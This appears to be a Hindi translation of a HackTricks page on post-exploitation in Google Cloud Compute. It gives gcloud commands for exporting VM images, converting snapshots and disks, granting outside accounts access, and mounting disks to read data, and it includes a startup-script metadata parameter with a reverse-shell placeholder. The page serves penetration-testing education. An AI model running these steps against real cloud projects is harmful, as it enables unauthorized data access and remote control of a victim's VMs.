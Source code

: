 # GCP - Compute Post Exploitation

<details>

<summary><strong>शून्य से नायक तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग प्राप्त करें**](https://peass.creator-spring.com)
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) का संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) या **Twitter** पर मुझे 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) **का पालन करें.**
* [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>

## Compute

Compute और VPC (Networking) के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../../gcp-pentesting/gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-pentesting/gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Export & Inspect Images locally

यह एक हमलावर को पहले से मौजूद इमेजेस के अंदर के डेटा तक **पहुंचने** या **चल रहे VMs की नई इमेजेस बनाकर** उनके डेटा तक पहुंचने की अनुमति देगा बिना चल रहे VM तक पहुंच के।

यह संभव है कि एक VM इमेज को एक बकेट में निर्यात करें और फिर उसे डाउनलोड करें और निम्नलिखित कमांड के साथ स्थानीय रूप से माउंट करें:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

इस क्रिया को करने से पहले हमलावर को स्टोरेज बकेट पर अधिकारों की जरूरत हो सकती है और निश्चित रूप से **cloudbuild पर अधिकारों** की जरूरत होती है क्योंकि यह **सेवा** है जिससे निर्यात करने के लिए कहा जाएगा।
इसके अलावा, इसे काम करने के लिए codebuild SA और compute SA को विशेषाधिकार प्राप्त अनुमतियाँ चाहिए।
cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com` को निम्नलिखित की आवश्यकता है:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

और SA `<project-id>-compute@developer.gserviceaccount.com` को निम्नलिखित की आवश्यकता है:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### स्नैपशॉट्स और डिस्क्स को निर्यात करें और स्थानीय रूप से जांचें

स्नैपशॉट्स और डिस्क्स को सीधे निर्यात करना संभव नहीं है, लेकिन एक स्नैपशॉट को डिस्क में, एक डिस्क को इमेज में **परिवर्तित करना** संभव है और **पिछले अनुभाग** का अनुसरण करते हुए, उस इमेज को स्थानीय रूप से जांचने के लिए निर्यात करना संभव है

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### एक VM बनाकर इमेज का निरीक्षण करें

**इमेज में संग्रहीत डेटा** तक पहुँचने या **चल रहे VM** के अंदर से जहाँ एक हमलावर ने इमेज बनाई है, वहाँ बाहरी खाते को इमेज पर पहुँच प्रदान करना संभव है:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
और फिर इससे एक नया VM बनाएं:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
यदि आप अपने बाहरी खाते को छवि पर पहुँच नहीं दे पाए, तो आप पीड़ित की परियोजना में उस छवि का उपयोग करके एक VM लॉन्च कर सकते हैं और **मेटाडेटा को एक रिवर्स शेल निष्पादित करने के लिए बनाएं** ताकि छवि तक पहुँच प्राप्त की जा सके, इस पैरामीटर को जोड़ते हुए:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### स्नैपशॉट/डिस्क का निरीक्षण VM से जोड़कर करें

**डिस्क या स्नैपशॉट में संग्रहीत डेटा तक पहुँचने के उद्देश्य से, आप स्नैपशॉट को डिस्क में बदल सकते हैं, डिस्क को इमेज में बदल सकते हैं और पिछले चरणों का अनुसरण कर सकते हैं।**

या आप **बाहरी खाते को डिस्क पर पहुँच प्रदान कर सकते हैं** (यदि प्रारंभिक बिंदु एक स्नैपशॉट है तो स्नैपशॉट पर पहुँच प्रदान करें या उससे एक डिस्क बनाएं):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**डिस्क को इंस्टेंस से जोड़ें**:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
VM के अंदर डिस्क माउंट करें:

1. **VM में SSH करें**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **डिस्क की पहचान करें**: VM के अंदर होने पर, नई डिस्क की पहचान डिस्क डिवाइसेस को लिस्ट करके करें। आमतौर पर, आप इसे `/dev/sdb`, `/dev/sdc`, आदि के रूप में पा सकते हैं।
3. **डिस्क को फॉर्मेट और माउंट करें** (यदि यह एक नई या कच्ची डिस्क है):
*   माउंट पॉइंट बनाएं:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   डिस्क माउंट करें:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

यदि आप **स्नैपशॉट या डिस्क को बाहरी प्रोजेक्ट को एक्सेस नहीं दे सकते** हैं, तो आपको इन क्रियाओं को स्नैपशॉट/डिस्क के समान प्रोजेक्ट में एक इंस्टेंस के अंदर **करने की आवश्यकता हो सकती है**।

<details>

<summary><strong>शून्य से लेकर हीरो तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एक्सक्लूसिव [**NFTs**](https://opensea.io/collection/the-peass-family) का संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो** करें।
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स शेयर करें।

</details>
